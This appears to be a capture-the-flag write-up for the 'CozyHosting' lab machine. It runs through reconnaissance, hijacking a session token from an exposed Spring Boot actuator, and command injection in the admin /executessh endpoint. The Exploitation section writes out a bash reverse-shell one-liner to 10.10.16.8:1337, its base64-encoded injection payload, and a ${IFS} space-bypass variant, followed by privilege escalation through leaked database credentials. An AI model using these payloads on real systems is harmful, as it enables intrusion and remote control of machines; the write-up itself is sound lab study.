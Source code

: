 # CozyHosting

### Reconnaissance

- port 22 SSH OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- port 80 HTTP ngionx v1.18 nginx 1.18.0 (Ubuntu)

bootstrap v 5.2.3

Directory scanning reveals the /login page, /error page, and /actuator endpoint (using SecLists 
quickhits.txt) and subdirectories ([scan](./cozyhosting.ffuf)):

- error
- actuator
- actuator/sessions
- actuator/health
- actuator/env
- actuator/beans
- actuator/mappings

The error page is a Whitelabel Error Page, a fallback for applications with no mapping for /error, and is used
by Spring Boot applications

![error](./pictures/error-page.png)

Using Wappalyzer on the discovered pages shows the Web server software and version, the application language,
and the OS

Index  
![index](./pictures/wappalyzer.png)

/error  
![error](./pictures/wappalyzer-error.png)

/login  
![login](./pictures/wappalyzer-login.png)

The actuator endpoint is openly accessible and the /sessions page contains a JSESSIONID token for an 
authenticated user, using this session token and navigating to /login redirects us to the admin dashboard 
at /admin

On the dashboard there is a tool to include a host into automatic patching which sends a post request to 
/executessh using an IP and a username

![executessh](./pictures/admin-dashboard.png)

The username parameter is vulnerable to code injection, we can test this with ping or wget, replacing any 
spaces with `${IFS}`  

![wget](./pictures/command-injection-http-server.png)  

![request](./pictures/command-injection-request.png)  

### Exploitation

We can use the command injection to execute a bash one-liner that has been base64 encoded

Bash one-liner base64 encoded:

`echo "bash -i >& /dev/tcp/10.10.16.8/1337 0>&1" | base64 -w 0`

Command injection payload:

`;echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44LzEzMzcgMD4mMQo=" | base64 -d | bash;#`

Replace spaces:

`;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44LzEzMzcgMD4mMQo="${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;#`

### Privilege Escalation

linpeas.sh shows Postgres running on localhost

App .jar file contains clear text postgres credentials and DB name

Postgres DB contains usernames and hashes

Crack one of the hashes, valid user password allowing ssh access as local user

local user can run ssh as root giving us a root shell
